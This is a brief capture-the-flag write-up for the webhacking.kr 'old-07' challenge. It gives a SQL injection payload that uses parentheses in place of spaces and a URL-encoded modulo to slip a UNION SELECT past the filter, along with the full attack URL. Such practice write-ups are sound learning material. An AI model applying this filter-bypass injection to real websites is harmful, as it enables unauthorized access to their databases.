

# webhacking old-07 Solution

here there is another sql challenge:



this is the payload we will give: `3)UNION(SELECT(10%258)`
which equivalent to `3) UNION (SELECT ( 10 % 8 )` and as you know, `10 % 8 = 2` and that's what we need.

you'll need to refresh the page couple of times until the random will heat 1.
```
https://webhacking.kr/challenge/web-07/index.php?val=3)UNION(SELECT(10%258)
```